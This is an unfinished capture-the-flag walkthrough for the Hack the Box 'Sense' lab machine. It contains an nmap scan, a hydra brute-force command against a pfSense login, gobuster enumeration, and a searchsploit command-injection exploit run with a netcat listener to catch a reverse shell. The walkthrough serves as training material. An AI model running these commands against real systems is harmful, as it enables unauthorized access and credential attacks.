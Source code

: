 ```yaml
---
title: Sense - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sense.png
---
```

#manual #OpenBSD #unfinished
### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.60
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 14:04 EDT
Stats: 0:02:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 63.82% done; ETC: 14:07 (0:01:15 remaining)
Nmap scan report for 10.10.10.60
Host is up (0.13s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
|_http-title: Login

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 218.20 seconds

```

The scan gives us an initial and potentially our only attack vector via web. Solving this box, I know this is the case. In the future, though, I'd recommend running `nmap -sT` or `nmap -sU` coupled with `full` in order to tackle all TCP and UDP ports if you've got the time and means!
### Enumeration

![Image](/assets/Screenshot 2024-09-09 at 2.12.09 PM.png)

We're led to this login portal, and a few things to note here. The importance of default credentials goes without saying. Do your research. Also, be wary of exhausting attempts and forcing a lockout on a machine. Should you want to see as a POC, run:

````
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.60 https-post-form "/index.php:__csrf_magic=sid%3A44c8728e26d47be027a7a01c98089e974f010329%2C1577594299&usernamefld=^USER^&passwordfld=^PASS^&login=Login:Username or Password incorrect"
````

You'll get stiffed after 15 attempts. After research, we find default credentials for the service are `admin` and `pfsense`, being USER/PASS. These do not work, and it forces us to enumerate web directories.

Using gobuster, we'll use:


```
gobuster dir -u https://10.10.10.60 -x php, txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -k
```

Where the `-x` denotes filetypes, and the `-k` tells gobuster to skip SSL verification. This machine hammers home the importance of intentional enumeration and patience. You have to know what it is you're looking for, and be willing to be patient in receiving it.


We can navigate to the directories that seem interesting. While perusing through, `system-users.txt` dropped some creds!

![Image](/assets/Screenshot 2024-09-09 at 2.24.51 PM.png)

Using these, we are able to gain access to the initial portal.

![Image](/assets/Screenshot 2024-09-09 at 2.26.21 PM.png)

Now that we've got more detailed information about versions, lets cross check with `searchsploit`.

![Image](/assets/Screenshot 2024-09-09 at 2.29.08 PM.png)

This one detailing versions before 2.1.4 seems to be a good pick. We can move it to our present directory by using: `searchsploit -m 43560.py`. Now let's see what's happening under the hood.

![Image](/assets/Screenshot 2024-09-09 at 2.33.16 PM.png)

The `status_rrd_graph_img.php` is vulnerable to command injections. The script seems to be passing the shell through parameters in the function, and it's our job to catch it with a listener. So, lets set one up.

`rlwrap nc -nlvp 4321`

Once again, the `rlwrap` establishes control with the arrow keys in the shell granted.

`python3 43560.py --lhost 10.10.14.3 --lport 4321 --rhost 10.10.10.60 --username rohit --password pfsense
`
This will configure our parameters for passing the shell through the header with the python script.





### Initial Access
### Privilege Escalation
